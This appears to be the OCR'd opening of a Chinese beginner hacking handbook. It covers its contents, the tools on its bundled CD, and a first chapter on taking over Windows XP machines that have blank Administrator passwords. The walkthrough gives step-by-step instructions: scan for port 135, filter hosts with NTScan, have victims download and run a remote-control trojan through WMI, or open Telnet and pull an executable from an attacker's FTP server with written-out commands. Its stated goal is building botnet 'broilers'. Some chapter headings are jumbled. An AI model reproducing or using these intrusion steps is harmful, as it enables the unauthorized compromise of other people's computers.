# 傻瓜黑客绿

光盘 + 手册：15.80 元

- 最适合菜鸟的入侵大法
  - 教小菜学会 WinXP 系统、MSSQL 数据库和 ADSL 的最简单的入侵方法
- 机关入侵的远程溢出
  - 让小菜轻松掌握远程溢出攻击的完整步骤，直到给对方中上木马
- 小菜进阶之木马使用大全
  - 小菜必看的木马使用全攻略，从木马配置到各种内网上线的解决方法
- Google 和挖掘鸡来助小菜入侵网站
  - 小菜进阶之利用 Google 等搜索引擎也能轻松入侵网站，使用挖掘鸡批量下载默认数据库
- 跟我学网站注入攻击
  - 学习脚本注入攻击的各种技巧及相关工具的使用，以及如何利用 PhpMyAdmin、Tomcat 等来抓肉鸡
- 得到的 WebShell 都有什么用
  - 教小菜学会网页挂马以及各种常用的服务器提权大法

## 傻瓜黑客

作者：周五杰（阿布）

黑龙江电子文化出版社

- 出品人：孙胜利
- 主编：杨冬柱
- 编辑部主任：丛林
- 编辑部：sagi / 呆呆虫 / 虫虫 / 咖啡 / 黄色潜水艇 / 笨牛牛
- 特约编辑：www0830 / zj1244 / 阿布 / hackest / 姜超 / 孟方明 / Talent Feng
- 光盘部：战神MARS
- 设计：王标帅
- 发行部总监：湛颖
- 联系电话：010-88561473
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币15.8元（光盘+手册）
- 杂志订阅及数字版与广告代理：gotoread.com 浏览网

## 目录

## 第一章 最适合菜鸟的入侵大法

- 1.1 WindowsXP 系统的弱口令入侵 —— 7
  - 1.1.1 入侵的原理 —— 7
  - 1.1.2 XP 系统弱口令入侵实战 —— 7
  - 1.1.3 入侵总结 —— 12
- 1.2 应用服务的弱口令入侵 —— 14
  - 1.2.1 入侵的原理 —— 14
  - 1.2.2 应用服务弱口令入侵实战 —— 15
  - 1.2.3 入侵总结 —— 21
- 1.3 ADSL 弱口令入侵 —— 21
  - 1.3.1 ADSL 弱口令入侵实战 —— 22
  - 1.3.2 入侵的原理 —— 24
  - 1.3.3 ADSL 入侵后的利用 —— 26

## 第二章 秒杀入侵的溢出攻击

- 2.1 Windows DNS 溢出攻击 —— 28
- 2.2 万能工具 NC 的简单使用 —— 30
- 2.3 常用上传方式简介 —— 33
  - 2.3.1 菜鸟最爱的 IPC$ 共享传送方式 —— 33
  - 2.3.2 通过 FTP 文件传输协议的传送方式 —— 34
  - 2.3.3 非常不错的 TFTP 方式 —— 35
  - 2.3.4 增强版 VBS 脚本程序下载木马 —— 36
- 2.4 攻占主机系统 —— 37
- 2.5 抢夺系统帐号 —— 41
- 2.6 清理入侵痕迹 —— 43

## 第三章 小菜进阶之木马使用大全

- 3.1 远控木马的分类 —— 45
- 3.2 PcShare 远控木马介绍 —— 46
- 3.3 PcShare 公网上线 —— 48
  - 3.3.1 第一种方法：固定 IP 上线 —— 48
  - 3.3.2 第二种方法：普通域名上线 —— 48
  - 3.3.3 第三种方法：动态域名上线 —— 49
  - 3.3.4 第四种方法：URL 转发上线 —— 51
- 3.4 PcShare 内网上线 —— 53
  - 3.4.1 第一种方法：端口映射法（端口转向）—— 53
  - 3.4.2 第二种方法：UPNP 映射 —— 55
- 3.4.3 第三种方法：内网建站专家 —— 57
- 3.5 PcShare 的其它配置 —— 60
- 3.6 PcShare 远控使用 —— 61

### 第四章 Google 和挖掘鸡来助小菜入侵网站

- 4.1 搜索引擎的高级语法 —— 65
- 4.2 利用搜索引擎入侵网站 —— 67
- 4.3 利用搜索引擎检 WebShell —— 70
- 4.4 利用挖掘鸡挖出 QQ 信封 —— 71
- 4.5 利用挖掘鸡来寻找数据库 —— 74
- 4.6 如何利用默认数据库入侵 —— 76

## 第五章 跟我学网站注入攻击

- 5.1 SQL 注入基础 —— 81
- 5.2 ASP+ACCESS 下的注入 —— 83
- 5.3 ASP+DB_OWNER 下的注入 —— 87
- 5.4 ASP+SA 下的注入 —— 90
- 5.5 PHP+MYSQL 下的注入 —— 92
- 5.6 明小子 + 旁注入侵演示 —— 96
- 5.7 整站 SQL 注入工具的利用 —— 98
- 5.8 利用 PhpMyAdmin 来入侵网站 —— 101
- 5.9 利用 Tomcat 入侵网站 —— 103

## 第六章 得到的 WebShell 都有什么用

- 6.1 跟我学网页挂马 —— 107
  - 6.1.1 框架挂马 —— 109
  - 6.1.2 JS 脚本挂马 —— 109
  - 6.1.3 CSS 样式表挂马 —— 109
  - 6.1.4 图片挂马 —— 110
- 6.2 服务器提权之路 —— 111
  - 6.2.1 利用 PcAnyWhere 进行提权 —— 111
  - 6.2.2 利用 Radmin 进行提权 —— 113
  - 6.2.3 利用 VNC 进行提权 —— 115
  - 6.2.4 利用 SqlRootKit 进行提权 —— 117
  - 6.2.5 利用 UDF.DLL 进行提权 —— 119
  - 6.2.6 利用 Serv-u 进行提权 —— 128

## 光盘目录

### 图书相关

- **X-Scan 3.3**：采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能，提供了图形界面和命令行两种操作方式。扫描内容包括：远程操作系统类型及版本、CGI 漏洞、IIS 漏洞、RPC 漏洞、NT 服务器 NETBIOS 信息等。
- **Radmin**：可以远程控制你的计算机，你可以在本地看见远程计算机的屏幕显示，本地的鼠标、键盘的有关反应也会传送到远程计算机。
- **ADSL 密码终结者**：好多 adsl 拨号上网的用户都没有修改自己的 adsl 猫的管理界面默认密码，这样别人就可以打开 adsl 管理界面查看拨号上网的帐号和密码。
- **希网动态域名客户端**：主要功能是配合希网动态域名服务系统，自动更新用户域名的动态 IP 地址。
- **Google Hack V2.0 汉化版**：google hack 就是利用搜索语句在 google 搜索一些特定的漏洞。
- **数据库管理助手**：浏览、添加、编辑 ACCESS 数据库、MSSQL 数据库、MYSQL 数据库（要装 MYSQL FOR ODBC 驱动）以及通过 ODBC 连接各种类型的数据库。
- **挖掘鸡 6.5**：一些黑客及黑客软件（包括网站管理员及管理员工具）会在网站生成特定路径（目录名 + 文件名），这些路径往往有习惯性及默认性。这样的路径在网络中孤立无链接，通过搜索引擎很难直接搜索到。挖掘鸡就是针对这样的路径进行扫描来获取敏感信息或 webshell 等权限。
- **日志清除器**：清除 IIS、FTP、计划任务、TCP/IP 限制、系统日志。
- **20CN 迷你 FTP 服务器**：一个在自己的电脑或肉鸡上架设 FTP 服务器的软件，最大特点是不用安装、使用直观简单、运行十分稳定。
- **NTscan v1.0**：支持 IPC$、SMB、WMI 扫描的 NT 弱口令猜测工具。
- **Dialupass**：一款拯救忘记了拨号网络密码的使用者的救星，它能够显示出计算机中记录的拨号网络密码，让忘了密码的使用者能够赶紧记录下遗忘的密码。

### 黑武连锁

- **Google Chrome 谷歌浏览器**：中文版完整安装包。谷歌浏览器是一款可让您更快速、轻松且安全地使用网络的浏览器。
- **QQ 好友备份器**：有效的防止 QQ 号码丢失导致与朋友失去联系，只需要使用 QQ 好友备份器就可以轻松将你的所有 QQ 好友提取保存出来。
- **文件夹安全专家 1.0**：全方位保护您的文件夹安全。您可以方便的锁定、解锁文件夹。
- **NetInfo 6.6 Build 818**：曾经得奖的网络监测软件，适合进阶使用者及初学者使用，其功能有：Local Info、Connections、Ping、Trace、Lookup、Finger、Whois、Daytime、Time、Quote、HTML、Scanner、IPMonitor 等等。
- **通用病毒杀灭机 1.2 版**：本工具是一个全自动病毒清理工具，对于求助者来说只需导入一个配置文件即可完成病毒的清除工具。不仅没有了大量手工清除病毒的麻烦，还节省了求助者大量的时间。
- **搞笑 qq 表情包**：QQ 趣味集合，内容丰富。包括 QQ 表情集合、QQ 个性头像、QQ 文本贴图、QQ 彩信、QQ 妙文妙语等内容。

## 栏目目录

### 安全之路

**驱动防火墙 Ver 1.0**：驱动防火墙思路而做。加入多种方式拦截功能、拦截网马功能，经测试可拦截市面上所有网马，与还原系统配合很爽。

**ESET NOD32 Antivirus 3.0.669.0**：麦田守望者奥运版。此版本集成猪客靓丽皮肤，添加最新猪客专版 ID 获取器，傻瓜式更新无需人为干预！首次更新需手动或安装完毕后重启系统！

**Arp杀手 V1.0**：Arp杀手 V1.0 单机版。

**瑞星卡卡上网安全助手 v6.0**：基于互联网设计的全新反木马软件，依托瑞星领先的“云安全”(Cloud Security) 计划，可有效拦截、防御、查杀各种木马病毒，并能帮助用户自动扫描并修补系统和第三方软件漏洞，优化电脑系统，是广大网民必备的安全软件。

**绿鹰还原保护器 2.63**：机器狗、磁碟机主动防御、任意还原软件防穿、自动系统关键文件保护、关键目录保护、时间保护、分区表保护、U盘保护。

**AnySpy(网络警察) 3.17**：一款企业级的局域网管理监控软件，能有效监视、控制和记录局域网上计算机在互联网上活动行为。是非常有效的网络监控、网络管理工具。

### 学海追潮

- 菜鸟破解多思路
- 菜鸟网吧日抓吓只鸡
- 剪断局部网的网络导致对方无网络
- 简单挑战杀软
- 迷你光驱助手1.55 追注册码
- 入侵黑客集结网
- 偷QQ换日
- 突破设备仿照样拿站
- 无盘网络制作
- 一卡通生成器完美破解动画
- 真正免费上网

### 新片预告

- 《守望者》
- 《流言对决》

**精彩游戏**
- 《企鹅战争》
- 《挽坟》

**MV秀场**
- 萧亚轩《速配程度》
- 范玮琪《放电》

**动漫人生**
- 《无限之住人》第1、2话

### 娱乐年华

## 第一章 最适合菜鸟的入侵大法

### 1.1 WindowsXP系统的弱口令入侵

WindowsXP 是目前使用最广泛的操作系统，尤其是在个人用户中，其市场份额高达84.18%，使用的人多了，那么研究这个系统的人自然也就多了，甚至还出现了专门寻找XP系统漏洞的一些黑客高手。WindowsXP 目前最新的升级版本是 SP3；虽然已经修复了很多的系统漏洞，并加强了系统安全方面的功能，但是利用XP系统的弱口令入侵还是一个不错的抓鸡方法。

#### 1.1.1 入侵的原理

那么这些弱口令是如何产生的呢？一般我们在电脑城购买电脑后，技术人员就会给新电脑安装 JUJUMAO 或者番茄菜园 GHOST 版本的 XP 系统，这些 GHOST 版本的 XP 系统在设计的时候为了方便个人用户的使用就把系统中默认的 Administrator 管理员账号的密码设置为空了，然而绝大多数情况下大家安装好新电脑后是不会修改这个密码的，这是因为许多个用户都是这样考虑的：1、我的电脑里又没有什么重要的东西，无所谓；2、反正我是在家里自己使用，有没有密码也没关系的；3、还有相当一部分用户根本就不知道在哪里设置密码，甚至不知道电脑是能够设置密码的，因为这些安装的电脑不仅 Administrator 帐号的密码为空，更是被设置成了开机后自动登录。于是弱口令就这样诞生了，也为我们抓肉鸡打下了坚实的基础。由于在 XP 系统中 WMI 组件是默认绑定在135端口上，但是 WMI 管理需要有管理员权限才行，所以我们只要能找到开放135端口并且存在弱口令的电脑就可以任意的控制它，然后可以通过 WMI 将木马种植到这台电脑上，一台肉鸡就这样被搞到了。

> **小知识：WMI是什么？**

WMI 是一项核心的 Windows 管理技术，WMI 作为一种规范和基础结构，通过它可以访问、配置、管理和监视几乎所有的 Windows 资源，比如用户可以在远程计算机上启动一个进程；设定一个在特定日期和时间运行的进程；远程启动计算机；获得本地或远程计算机的已安装程序列表；查询本地或远程计算机的 Windows 事件日志等等。

#### 1.1.2 XP系统弱口令入侵实战

我们要如何寻找既开放了135端口又存在弱口令的电脑呢？我们可以大致的分为两步：第一，使用端口扫描工具寻找开放了135端口的电脑；第二，使用专门过滤弱口令的工具在开放了135端口的电脑中再筛选出存在弱口令的电脑。

首先打开端口扫描工具 SSPort，在“IP 段设置”中填入一个 IP 地址段，可以将开始和结束的 IP 地址设置的宽一些，以增大扫描的主机数。在输入了 IP 地址段后，点击“添加”按钮就可以将 IP 地址段添加上了。在“端口配置”中填入需要扫描的端口，然后点击“增加”按钮，就可以设置扫描的端口了，比如我们输入135，就可以设置为扫描端口。

扫描135端口了。至于扫描参数大家可以根据自己实际的网络环境进行调整，如果你的网速比较快，那就设置超时为“3秒”，把速度条拖到最快；如果你的网速比较慢，那就设置超时为“5秒”甚至更高，适当的把速度条往最慢的那边拖一下，如图1.1。设置完毕后，点击SSPort左上角的“扫描”按钮，程序就开始一点点的扫描了，不用着急，喝点咖啡抽支烟……

在扫描的时候我们还可以看到其工作状态和当前扫描结果等信息，当工具将添加的IP地址段全部扫描完毕后，点击工具栏中的“导出”按钮将扫描结果导出到一个TXT文本文件中，为什么一定要导出来呢？这是为了后面筛选的时候可以实现批量自动化扫描。从SSPort中导出来的扫描结果需要修改一下，打开保存的TXT文本文件，可以看到在每个IP地址的后面都跟着一个“:135”，它的意思是说此IP地址的电脑开放了135端口，不过我们的筛选工具可不认识它，所以只好手工删除掉了，如图1.2。

如果大家嫌手工删除比较麻烦的话，也有一个小窍门的，就是使用记事本的“替换功能”将“:135”替换为“”（这里可以是空格也可以什么都不填写）就可以了，修改完毕后不要忘记保存文件哟。接着我们打开用来筛选的工具NTScan，它是一个支持以IPC$、SMB、WMI等方式来扫描NT弱口令的工具。

NTScan。平时使用的时候只需要像SSPort那样输入起始和结束IP地址

图1.1

图1.2

就行了，不过这次由于需要使用外部TXT文本文件中的IP地址，所以需要勾选上“主机文件”选项，然后再点击后边的“打开”按钮选择我们刚才修改好的扫描结果文件即可。至于“线程”和“速度”选项还是像SSPort的“扫描参数”那样根据自己实际的网络环境设置。一定要勾选上“WMI扫描”选项，取消掉“在扫描之前PING”，因为我们在前面已经使用SSPort确认这些主机开放了135端口，也就不需要重复判断主机是否存在了。勾选上“扫描打开端口的主机”，在其后面输入要扫描的端口“135”，这样工具的设置部分就结束了，最后点击“开始”按钮就会进行扫描了，在工具右侧会显示出当前的扫描进度，而且在工具的左下侧也会随时显示出当前的扫描结果，扫描到多少台主机基本就可以确定有多少台肉鸡了，如图1.3。全部扫描完成后就是我们想要的既开放了135端口又存在弱口令的电脑，找到这些“准肉鸡”后，下面就要开始真正的入侵了。

图1.3

打开菜鸟种木马的好工具——Recton，直接切换到“种植者”选项，在“远程主机”中输入刚才筛选出来的一个主机的IP地址，比如58.56.102.21，

图1.4

在“用户名”中输入管理员账号“Administrator”，在“密码”中直接留空就可以了，因为筛选出来的主机都是空口令嘛。在右侧的“附加设置”中选择“HTTP下载”，因为这种方式的原理其实是通过WMI服务在远程主机上写入一个具有下载功能的脚本，然后执行这个脚本到指定的http地址下载木马文件，再使用WMI服务运行该文件，整个过程都不依赖IPC$和其它共享，也不依赖Task Scheduler，在XP系统中比较好用。在“文件目录”中输入想下载的木马的URL地址，这个木马我们需要事先上传到自己的空间上。

意文件地址千万别忘记了“http://”。在“启动参数”中输入木马的文件名，“文件地址”和“启动参数”一定要填写正确，否则无法执行。最后点击“【开始下载】”按钮就行了，如图1.4。通过工具的下侧可以看到当前的操作情况，当看到“命令成功完成”的提示并且返回一个进程PID的话，如图1.5，再等上60秒就会运行我们上传的木马了，如果木马没有被杀毒软件所查杀，那么恭喜你，一台肉鸡就这么诞生了。还等什么？赶快打开灰鸽子看看它上线了没有，如图1.6。

图1.5

对于种木马来讲还有一种比较实用的方法，那就是使用Recton开启“准肉鸡”的Telnet服务，远程登录对方主机后使用FTP或TFTP32来传输木马，然后再利用Telnet执行木马。虽然这种方法稍微的麻烦了一些，但是成功率还是比较有保障的。打开Recton，直接切换到“Telnet”选项，在“远程主机”栏输入刚才筛选出来的一个主机IP地址，比如58.56.102.21，在“用户名”中输入管理员帐号“Administrator”，在“密码”栏直接留空。在右侧的“端口”栏输入“23”，也就是说要在23端口上开启TELNET服务，这也是Telnet服务默认所使用的端口，当然我们也可以使用别的端口。在“NTLM”中输入“0”，NTLM是一种验证机制，默认是以当前用户的身份向Telnet服务器发送登录请求，而不是使用你扫描到的对方管理员的帐户和密码登录，所以需要将其设置为“0”关闭掉。最后点击“【开始执行】”按钮就可以了。

图1.6

#### 小知识：什么是NTLM？

## 第二章 最适合菜鸟的入侵大法

早期的 SMB 协议在网络上明文传输口令，后来出现了“LAN Manager Challenge/Response”验证机制，简称 LM，它十分简单以至于很容易被破解。微软随后提出了 WindowsNT 挑战/响应验证机制，即 NTLM。现在已经有了更新的 NTLMv2 以及 Kerberos 验证体系。NTLM 的有三个选项，分别是 0、1、2。当 NTLM=0 时不使用 NTLM 身份验证，直接输入用户名和密码进行验证登录；当 NTLM=1 时先尝试使用 NTLM 身份验证，如果失败，再使用用户名和密码进行验证登录；当 NTLM=2 时，只依靠 NTLM 验证，根本不给输入用户名和密码的机会，直接断开连接。



图 1.7

在 Recton 的下方我们可以看到当前的操作情况，如果看到“TELNET 服务已经成功打开”的提示，就可以使用 TELNET 命令来连接远程如图 1.7 主机了。打开 CMD 命令提示符，输入 `TELNET 218.57.228.222`，便可以以 TELNET 方式连接到 IP 地址为“218.57.228.222”的主机上了，如图 1.8。然后我们直接输入“Y”就可以跳过去进行后面的密码验证，输入管理员账号“Administrator”，由于其密码为空所以直接在输入密码的时候回车就可以了，如图 1.9。



图 1.8

如果还是登录不成功的话，我们还可以将你自己电脑的管理员帐号“Administrator”的密码也修改为空，然后注销后再使用这个帐号进行连接基本上就可以了。

当我们成功 TELNET 远程登录进入对方主机后，就相当于拥有一个 CMDSHELL 了，这就跟在本地电脑中打开一个 CMD 窗口一样，如图 1.10。使用 `cd c:\` 命令返回 C 盘根目录，我们来看一下如何使用 FTP 命令下载灰鸽子服务端到对方的 C 盘根目录下。在 CMD 中输入……



图 1.9

ftp 218.57.228.4，就可以以 FTP 方式登录到 IP 为“218.57.228.4”的主机上，然后输入 FTP 的帐号和密码便可以登录进入 FTP 空间，可以使用“DIR”命令列一下当前 FTP 空间的目录，确认你要下载的木马的文件名。输入 get 1.exe 命令就可以将 FTP 空间的 1.exe 文件下载到对方主机的 C 盘根目录下了，最后可以使用 bye 命令退出 FTP 模式，如图 1.11。在 TELNET 模式中输入 dir 命令查看一下木马文件是否已经下载回来，如果看到文件的话，就可以直接输入 1.exe 运行木马了，也可以使用 start 1.exe 命令来执行木马，如图 1.12。为了更好地让木马运行成功，我们可以多次的执行木马。如果木马没有被杀毒软件查杀掉而运行成功的话，那么一台肉鸡就搞定了，如图 1.13。





### 1.1.3 入侵总结

整个的入侵和抓肉鸡过程非常简单吧，在上边的入侵过程中有很多限制元素存在，只要有一处没有考虑到，就会导致抓不到肉鸡或者出现莫名其妙的错误。



- 1. WindowsXP 系统的 TCP/IP 连接数问题，自从 SP2 补丁包发布以来，这个限制就一直困扰着大家的扫描速度和扫描准确性，因为它禁止应用程序打开 10 个以上的 TCP 连接，只要我们稍微提高一下扫描速度就会导致扫描结果极不准确。还好早就有网络高手提供了破解补丁，由于最近 XP 系统又发布了 SP3 补丁包，所以其破解补丁分为 SP2 和 SP3 版本。我们以 SP2 连接数破解补丁为例来介绍一下，打开破解补丁，可以从最上方看到当前的 TCPIP.SYS 的版本和……

